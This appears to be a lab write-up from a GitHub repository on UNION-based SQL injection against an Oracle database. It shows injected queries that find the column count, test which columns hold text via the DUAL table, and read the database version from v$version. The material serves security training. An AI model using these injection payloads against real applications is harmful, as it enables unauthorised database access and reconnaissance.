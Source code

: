 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234110216-2cd07661-6e57-4942-8cee-5763175895b9.png)

![image](https://user-images.githubusercontent.com/67383098/234110948-d99c07da-75a2-4e88-a71e-80fa0c932977.png)


## Solution :

Here we can find out the number of columns that the web app is querying & also determine the columns which have text data but to retreive a column data  we need to know the table name.

> In oracle there is a default table called **DUAL**. Using that we can retreive column data.

#### Determine the number of columns 

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 3 --
```

**ORDER BY 3** gives error, so there are 2 columns being retreived.

#### Determine the column which has text data


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'shebu','cys' FROM dual --
```
Both the columns show the text in response. So both columns support text data.

#### Retreive db type & version of ORACLE 

To retretive db type & version of ORACLE , we have the syntax `SELECT * FROM v$version`

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,banner FROM v$version --
```

We got the db info we needed.

![image](https://user-images.githubusercontent.com/67383098/234114954-432d7c3b-fe6a-4d75-9858-42f475a6b4b8.png)

![image](https://user-images.githubusercontent.com/67383098/234115373-fbbbcdf6-5e26-4088-a404-04d64a700eb2.png)

![image](https://user-images.githubusercontent.com/67383098/234115419-5d87f4f4-f39d-4c69-b6b1-e3e54b4a60ad.png)


